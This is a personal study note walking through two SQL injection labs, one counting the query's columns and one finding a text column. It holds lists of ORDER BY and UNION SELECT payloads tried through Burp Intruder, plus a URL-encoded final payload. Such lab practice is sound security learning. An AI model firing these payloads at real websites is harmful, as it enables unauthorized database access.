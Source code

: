 ```yaml
---
sticker: emoji//1f9ea
---
```

# Lab: SQL injection UNION attack, determining the number of columns returned by the query

![[Pasted image 20241030154632.png]]

To begin with this lab let's take a look at the page:

![[Pasted image 20241030154840.png]]

We have a `refine your search` section, let's send the request to burp to analyze it:

![[Pasted image 20241030155112.png]]

We have a `filter?category=` section, I believe this is our injectable section, let's begin with the SQLI:


For this, I will use the notes from [[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/INJECTIONS/SQLI/SQL INJECTION (SQLI).md|SQLI]], let's send our request to intruder and start the attack in the following way:


![[Pasted image 20241030155422.png]]

![[Pasted image 20241030155739.png]]

Let's launch the attack:

![[Pasted image 20241030155927.png]]
Judging based on the status code and response, we can pretty much visualize `' ORDER BY 3--` was the successful payload, let's look at the response:

![[Pasted image 20241030160033.png]]

![[Pasted image 20241030160134.png]]


Now, knowing that 3 is the right one, let's use the UNION attack:

```ad-important
##### USED:


`sql`

'+UNION+select+NULL--
'+UNION+select+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--


```



Let's use intruder again the test our payloads:


![[Pasted image 20241030161904.png]]

So, the payload that worked was this:

```sql
'+UNION+select+NULL,+NULL,+NULL--
```


Let's send the request and finish the lab:



![[Pasted image 20241030162009.png]]

## EXPLANATION VIDEO

<iframe width="800" height="545" src="https://www.youtube.com/embed/umXGHbEyW5I" title="SQL Injection - Lab #3 SQLi UNION attack determining the number of columns returned by the query" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>



# Lab: SQL injection UNION attack, finding a column containing text


![[Pasted image 20241030162905.png]]

## SENDING THE REQUEST

![[Pasted image 20241030171439.png]]

So, taking advantage of the notes I took previously, this is what could work:

```ad-important

`' UNION SELECT 'a',NULL,NULL,NULL--`
`' UNION SELECT NULL,'a',NULL,NULL--`
`' UNION SELECT NULL,NULL,'a',NULL--`
`' UNION SELECT NULL,NULL,NULL,'a'--`
```


Let's try, first, let's send the request to intruder and launch the attack:


```ad-important

##### USED PAYLOAD:


' UNION select 'abcdef'--
' UNION select NULL,'abcdef',NULL--
' UNION select NULL,NULL,'abcdef',NULL--
' UNION select NULL,NULL,NULL,'abcdef'--
' UNION select NULL,NULL,NULL,NULL,'abcdef'--
' UNION select NULL,NULL,NULL,NULL,NULL,'abcdef'--




```


![[Pasted image 20241030173119.png]]

If we launch the attack, we realize that:

`' UNION select NULL,'abcdef',NULL--` 

Was successful:


![[Pasted image 20241030173318.png]]

So, we can finish the lab by sending the following request:


`' UNION select NULL,'0lrAqo',NULL--`


But since we need to send it encoded, this would be what we need to send:

`%27%20UNION%20select%20NULL%2C%270lrAqo%27%2CNULL--`


![[Pasted image 20241030173523.png]]


## EXPLANATION VIDEO

<iframe width="800" height="600" src="https://www.youtube.com/embed/SGBTC5D7DTs" title="SQL Injection - Lab #4 SQL injection UNION attack, finding a column containing text" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>
